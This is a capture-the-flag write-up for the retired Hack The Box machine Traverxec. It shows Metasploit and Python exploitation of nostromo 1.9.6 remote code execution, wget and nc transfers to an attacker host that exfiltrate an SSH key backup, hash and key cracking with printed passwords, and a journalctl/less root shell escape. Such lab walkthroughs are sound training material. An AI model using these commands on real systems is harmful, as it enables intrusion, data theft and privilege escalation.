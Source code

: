 # Traverxec

This is the write-up for the box Traverxec that got retired at the 11th April 2020.
My IP address was 10.10.14.6 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.165    traverxec.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/traverxec.nmap 10.10.10.165
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey:
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web page is a custom-developed website and there is nothing interesting in the HTML source code.
When looking at the _HTTP Server header_, it shows that the web server runs **nostromo 1.9.6**.

The software [nostromo](https://www.nazgul.ch/dev_nostromo.html) is also known as **nhttpd** and is a web server.

Searching for vulnerabilities for **nostromo**:
```
searchsploit nostromo
```
```
Nostromo - Directory Traversal Remote Command Execution (Metasploit)
nostromo 1.9.6 - Remote Code Execution
```

There is a known Remote Code Execution vulnerability that can be exploited with a Python script or with a **Metasploit module**.

Using the Metasploit module:
```
msf6 > use exploit/multi/http/nostromo_code_exec

msf6 exploit(multi/http/nostromo_code_exec) > set RHOSTS 10.10.10.165
msf6 exploit(multi/http/nostromo_code_exec) > set LHOST tun0

msf6 exploit(multi/http/nostromo_code_exec) > exploit
```

Using the Python script:
```
python2 47837.py 10.10.10.165 80 id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Both result in command execution as the user _www-data_, but as the Metasploit module starts a shell immediately, it is more comfortable to use that.

## Privilege Escalation

To get an attack surface on the box, it is recommended to run any **Linux Enumeration script**:
```
wget http://10.10.14.6/LinEnum.sh

bash LinEnum.sh
```

In the web directory is a hidden file _/var/nostromo/conf/.htpasswd_ with a password hash for the user _david_:
```
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

It starts with _"$1$"_ and the example hashes of **Hashcat** show that it is probably **md5crypt**.
Lets try to crack it with **Hashcat**:
```
hashcat -m 500 david_htpasswd.hash /usr/share/wordlists/rockyou.txt
```

After a while it gets cracked and the password is:
> Nowonly4me

Unfortunately the password does not work on SSH or switching users to _david_.

The configuration file _/var/nostromo/conf/nhttpd.conf_ shows that there is a home directory set:
```
(...)
HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
```

Even though, the user _www-data_ cannot list the contents of the home directory of _/home/david_, it is possible to get into the _public_www_ folder anyway as the web user needs read access there:
```
cd /home/david/public_www

ls -l

total 8
-rw-r--r-- 1 david david  402 Oct 25  2019 index.html
drwxr-xr-x 2 david david 4096 Oct 25  2019 protected-file-area
```

The directory _protected-file-area_ contains a file called _backup-ssh-identity-files.tgz_.
Downloading the file to our local client:
```
# Local client
nc -lvnp 9001 > backup-ssh-identity-files.tgz
```
```
www-data@traverxec:/home/david/public_www/protected-file-area& nc 10.10.14.6 9001 < backup-ssh-identity-files.tgz
```

The file can be decompressed with `tar`:
```
tar -xzvf backup-ssh-identity-files.tar
```

It extracted the public and private SSH keys from _david_:
```
- home/david/.ssh/
- home/david/.ssh/authorized_keys
- home/david/.ssh/id_rsa
- home/david/.ssh/id_rsa.pub
```

The private key _id_rsa_ is encrypted, but the password found earlier does not work.
Lets try to crack the SSH key with **JohnTheRipper**:
```
sshng2john id_rsa > david_ssh.hash

john --wordlist=/usr/share/wordlists/rockyou.txt david_ssh.hash
```

It gets cracked and the password is:
> hunter

Login as _david_ via SSH:
```
ssh -i home/david/.ssh/id_rsa david@10.10.10.165
```

### Privilege Escalation to root

In the home directory of _david_ is a bash script called _/home/david/bin/server-stats.sh_ where the last line of the script uses `journalctl` with sudo permissions:
```
(...)
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

The binary `journalctl` has is listed in [GTFObins](https://gtfobins.github.io/gtfobins/journalctl/) and can be abused to elevate privileges when running it with sudo.
By removing the command after the pipe, `journalctl` will invoke the default pager as `less`.

The command `less` waits for user input and it is possible to execute commands with the exclamation mark character:
```
(...)
!/bin/sh
```

> NOTE: If `journalctl` will not use `less` as the pager, then shrink the terminal size to less than 5 lines and run the command again and it will use `less` by default

This start a shell as root!
